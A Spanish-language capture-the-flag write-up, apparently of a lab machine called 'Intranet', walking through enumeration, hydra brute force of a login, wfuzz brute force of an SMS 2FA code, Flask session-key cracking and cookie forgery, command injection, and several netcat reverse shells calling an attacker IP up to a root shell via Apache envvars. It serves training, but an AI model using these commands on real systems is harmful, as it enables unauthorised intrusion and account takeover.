

# Intranet

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han identificado cuatro puertos abiertos en el sistema: el puerto `22` para `SSH`, el `21` para `FTP`, el `7` para `Echo`, el `23` para `TCP Wrapped`, el `80` para `HTTP` y el `8080` también para `HTTP`.

<figure><figcaption></figcaption></figure>

Enumeramos los directorios que tenemos disponibles en el puerto `HTTP`: `80` y el `8080`.

``` shell-code
dirsearch -u http://<ip>:80
dirsearch -u http://<ip>:8080
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Observamos que hay un formulario de inicio de sesión. Al ingresar cualquier nombre de usuario y contraseña, recibimos el mensaje de error `Error: Invalid username`. Esto sugiere que el sistema puede reconocer qué usuarios son válidos y cuáles no. Para investigar más, revisamos el código fuente de la página web y encontramos un mensaje interesante:

<figure><figcaption></figcaption></figure>

```
<!--- Any bugs? Please report them to our developer team. We have an open bug bounty program!
  For any inquiries, contact devops@securesolacoders.no.
  Sincerely, anders (Senior Developer) -->
```

Nos damos cuenta de que el correo `devops@securesolacoders.no` podría ser un usuario válido para iniciar sesión, pero tal vez no sea el único. En el mismo mensaje, se menciona a `anders`, que también podría ser un usuario. Además, el mensaje inicial del laboratorio hace referencia a `Magnus`. Por último, un nombre de usuario común que podríamos probar es `admin`. Esta búsqueda también se puede realizar utilizando un método de `fuzzing`. Sin embargo, considero que con la información recopilada hasta ahora es suficiente.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Como vemos solo el correo de `magnus@securesolacoders.no` nos dio error de usuario asi que lo descartamos, y nos quedaria la siguiente lista.

``` Users-names
devops@securesolacoders.no
anders@securesolacoders.no
admin@securesolacoders.no
```

Creamos una lista personalizada de contraseñas utilizando `cwel`.


```
cewl -w list.txt -d 8 -m 5 http://10.10.141.85:8080/login
```

* `-w` escribirá el contenido en un archivo. En este caso, list.txt. 
* `-m 5` reúne cadenas (palabras) de 5 caracteres o más 
* `-d 5` es el nivel de profundidad del rastreo crawling/spidering (default 2)
* `http://10.10.141.85:8080/login` es la URL que se utilizará

Nos queda la siguiente lista:

``` list.txt
Intranet
login
Password
Proudly
hosted
maintained
developed
SecureSolaCoders
Please
report
developer
bounty
program
inquiries
contact
devops
securesolacoders
Sincerely
anders
Senior
Developer
```

Realizamos un ataque con `hydra` para verificar la validez de las contraseñas.


```
hydra -L list-usernames.txt -P list.txt 10.10.141.85 -s 8080 http-post-form "/login:username=^USER^&password=^PASS^:Error"
```
<figure><figcaption></figcaption></figure>

No encontramos contraseñas válidas para ninguna de las cuentas. Ahora tenemos dos opciones: buscar más contraseñas que puedan estar asociadas a diferentes servicios o crear una lista de contraseñas más extensa. Para esto, podemos utilizar `john`.

Generamos una lista de reglas para crear contraseñas más sofisticadas. Puedes hacerlo con un programa en `Python` que desarrolles tú mismo o utilizar alguna herramienta disponible en `GitHub`, pero yo optaré por usar `john`, ya que me parece más fácil de implementar.

```
[List.Rules:Intranet]
Az"[0-9]"
Az"[0-9][0-9]"
Az"[0-9][0-9][0-9]"
Az"[0-9][0-9][0-9][0-9]"
Az"[0-9]" $[!$§$%/()=?*@]
```

	Simplemente añadimos los dígitos del `0 al 9` al final de cada palabra y continuamos combinando hasta cuatro dígitos, por ejemplo, `login1248`. Además, también incluimos caracteres especiales al final de cada línea.

Esta regla la colocamos en `/etc/john/john.conf` y lo guardamos. Preferiblemente ponle junto a las otras reglas que ya tengas creadas.

```
sudo vi /etc/john/john.conf 
```

Generamos la nueva lista de contraseñas para su uso. Simplemente imprimimos la salida utilizando `--stdout` y la redirigimos con `>` para que se guarde en un archivo llamado `list_comple.txt`.

```
john --wordlist=list.txt --rules=intranet --stdout > list_comple.txt
```

<figure><figcaption></figcaption></figure>

Realizamos un ataque de fuerza bruta con `hydra` y logramos obtener tanto el nombre de usuario como la contraseña.

```
hydra -L list-usernames.txt -P list_comple.txt 10.10.141.85 -s 8080 http-post-form "/login:username=^USER^&password=^PASS^:Error" -t 64
```

<figure><figcaption></figcaption></figure>

Podemos iniciar sesión, pero se nos solicita una verificación por SMS de cuatro dígitos para continuar (2FA).

<figure><figcaption></figcaption></figure>

# Web /sms 2FA code

Podemos generar una lista de códigos que varíen entre `0000` y `9999` para probar todas las combinaciones posibles. Sin embargo, esto solo será efectivo si no hay un límite en el número de intentos de verificación.

``` shell
crunch 4 4 0123456789 -o nums.txt
```

``` nums.txt
0000
0001
....
9998
9999
```

Es necesario identificar qué campo debemos completar y enviar utilizando `fuzzing`, junto con la `cookie` correspondiente.

<figure><figcaption></figcaption></figure>

```
wfuzz --hl 77 -w nums.txt -d "sms=FUZZ" -b session=<cokkie> 10.10.141.85:8080/sms
```

<figure><figcaption></figcaption></figure>


De esta manera, obtenemos el código, que en este caso es "`1494`"; cada situación es única. Con este código, podemos verificar la autenticación y acceder a `/home`.

<figure><figcaption></figcaption></figure>

# Web /Home

Al explorar la página, llama la atención una sección interna que cuenta con un botón de `update`, el cual debería actualizar el feed de noticias.

<figure><figcaption></figcaption></figure>

Aunque no actualiza nada interezante en estos momentos.

<figure><figcaption></figcaption></figure>

Aunque estemos registrados como un usuario, no tenemos acceso al panel de administración, por lo que lo descartamos por ahora.

Examinemos más a fondo el botón de `update` y su funcionamiento con `Burp Suite`. Este botón envía un comando llamado `latest`. Verifiquemos si podemos utilizarlo para consultar información adicional.

<figure><figcaption></figcaption></figure>

Podemos ver que podemos usar  comandos para leer archivos como `/etc/passwd` asi que recopilamos los usuarios de una vez.

<figure><figcaption></figcaption></figure>

```
anders:x:1000:1000:anders:/home/anders:/bin/bash
devops:x:1001:1001:,,,:/home/devops:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

Para comprobar los procesos en ejecución, se puede leer el archivo `/proc/self/stat`. Al acceder a este archivo, se obtiene información sobre el estado del proceso correspondiente al proceso actual.

<figure><figcaption></figcaption></figure>

A partir de aqui, podemos obtener el `PID 793` (que puede variar). Utilizando `/proc/<pid>/cmdline`, es posible recuperar los argumentos de la línea de comandos que se pasaron a un proceso específico con el `PID` indicado. Esto nos permite localizar la ruta de ejecución de la aplicación `Flask`, que es `/home/devops/app.py.`

<figure><figcaption></figcaption></figure>

Ahora simplemente recuperamos el código de `/app.py` y lo guardamos, ya que nos será útil más adelante.

<figure><figcaption></figcaption></figure>

# Web /app.py

En las primeras líneas de la aplicación `app.py`, observamos cómo se genera la clave de sesión `jwt`. Esta clave se forma concatenando la cadena `secret_key_` con un número aleatorio que varía entre `100000` y `999999`. Con esta información, podemos crear una lista de posibles combinaciones y descifrar la contraseña utilizada con una `cookie` de sesión `jwt` conocida, empleando `flask-unsign`.

``` app.py
from flask import Flask, flash, redirect, render_template, request, session, abort, make_response, render_template_string, send_file
from time import gmtime, strftime
import jinja2, os, hashlib, random

app = Flask(__name__, template_folder="/home/devops/templates")


key = "secret_key_" + str(random.randrange(100000,999999))
app.secret_key = str(key).encode()

```

Primero, creamos un archivo llamado `flask_base.txt` que contenga la cadena `secret_key_`.

Luego, definimos una nueva regla en `john` para generar los números que van desde `100000` hasta `999999` en el archivo de configuración `/etc/john/john.conf`.

```
[List.Rules:Flask_Rule]
Az"[1-9][0-9][0-9][0-9][0-9][0-9]"
```

A continuación, generamos la lista de palabras utilizando `john` con la regla que definimos anteriormente.

```
john --wordlist=flask_base.txt --rules=flask_rule --stdout > flask_list.txt
```

Ahora solo nos queda proceder con el descifrado.

```
flask-unsign --unsign --wordlist flask_list.txt --cookie '<cookie>'
```



<figure><figcaption></figcaption></figure>

En este caso, hemos descifrado la clave como `secret_key_361929`, aunque puede variar. 

Para construir nuestro propio `token`, es fundamental entender cómo está estructurado el token original, lo cual podemos determinar al descifrar la palabra secreta.

```
[*] Session decodes to: {'logged_in': True, 'username': 'anders'}
```

Dado que el directorio `/admin` indica que no podemos acceder, podemos utilizar `admin` para generar nuestro propio token con el siguiente comando.

```
flask-unsign --sign --cookie "{'logged_in': True, 'username': 'admin'}" --secret 'secret_key_361929'
```
<figure><figcaption></figcaption></figure>

Modificamos el `token` y nos dirigimos al endpoint `/admin`, lo que nos permite acceder sin problemas.

<figure><figcaption></figcaption></figure>

# Rev-Shell

Al revisar el código fuente de la página de `/admin`, notamos que había una sección de un formulario que no se eliminó.

Además, al examinar `app.py`, observamos que en la línea `10` se utiliza la función `os.system()`, lo que nos permite interactuar con el sistema operativo. No dependemos de este formulario, por lo que podemos enviar una solicitud `POST` con un valor para `debug` y así crear un `shell inverso`.

``` app.py

@app.route("/admin", methods=["GET", "POST"])
def admin():
        if not session.get("logged_in"):
                return redirect("/login")
        else:
                if session.get("username") == "admin":

                        if request.method == "POST":
                                os.system(request.form["debug"])
                                return render_template("admin.html")

                        current_ip = request.remote_addr
                        current_time = strftime("%Y-%m-%d %H:%M:%S", gmtime())

                        return render_template("admin.html", current_ip=current_ip, current_time=current_time)
                else:
                        return abort(403)
```

Utilizando `cURL`, que incluye la cookie de sesión de `admin` que creamos anteriormente, implementamos un shell inverso básico. Es importante codificar el signo `&` para que funcione correctamente.

```
curl 'http://<ip>:8080/admin' -X POST -H 'Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.aIam6g.Xz0ZQ6RQn80VIfBvm1B2omGwSwo' --data-raw 'debug=rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.9.0.226 4242 >/tmp/f'
```

Asi obtenemos el shell inverso con el usuario de `devops` 

<figure><figcaption></figcaption></figure>

# Shell /devops



Al revisar los procesos con `ps aux`, notamos que, en lugar de `www-data` ejecutando `apache2`, es `anders` quien lo hace. Este servidor web Apache podría ser la aplicación web que se ejecuta en el puerto `80`, lo que nos brinda una oportunidad para escalar a los privilegios del usuario `anders`.

Para confirmar nuestra suposición, exploramos el directorio `/var/www/html` y encontramos el archivo `index.html` de la aplicación web que se ejecuta en el puerto `80`. Además, verificamos que tenemos permisos para modificar esta carpeta.


<figure><figcaption></figcaption></figure>

Como podemos crear páginas en esta aplicación, podemos generar un reverse shell que se ejecute con los privilegios del usuario `anders`.



Generamos la shell utilizando `pentestmonkey` y creamos un archivo llamado `rev.php`. Luego, iniciamos `nc -lvnp <port>` y abrimos la página en el navegador. 

<figure><figcaption></figcaption></figure>

Esto nos permite obtener la shell con los privilegios del usuario `anders`.

<figure><figcaption></figcaption></figure>

## Shell /anders

Enumeramos el usuario utilizando `sudo -l` para verificar los permisos que podemos obtener con `sudo`, y encontramos lo siguiente relacionado con el servicio Apache.

<figure><figcaption></figcaption></figure>

Buscamos algún elemento en la biblioteca de `Apache` donde podamos sobre-escribir y encontramos uno en `/etc/apache2`. El usuario `anders` tiene permisos para modificar el archivo `envvars`.

<figure><figcaption></figcaption></figure>

Aquí podemos insertar otra reverse shell para obtener permisos de `root`. Solo necesitamos crear nuestra reverse shell utilizando el siguiente código:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ip> 4244 >/tmp/f
```

<figure><figcaption></figcaption></figure>

Debemos colocar el código en `envvars`, iniciar el oyente de `nc` y reiniciar el servicio de `apache2` con los permisos de `root`.

```
nc -lvnp 4244
```

```
sudo -u root /sbin/service apache2 restart
```

<figure><figcaption></figcaption></figure>

De esta manera, conseguimos la `shell` de `root` y sus permisos, lo que nos permite acceder a la última `flag`.

<figure><figcaption></figcaption></figure>

------------------------

>Los monstruos nunca habitaron debajo de mi cama, porque en realidad, los monstruos estaban en mi mente. No temo a los monstruos, ya que yo soy el monstruo. Ahora comprendo que, durante todo este tiempo, lo que más he anhelo es ser ese monstruo.
>
> <p align="center"></p>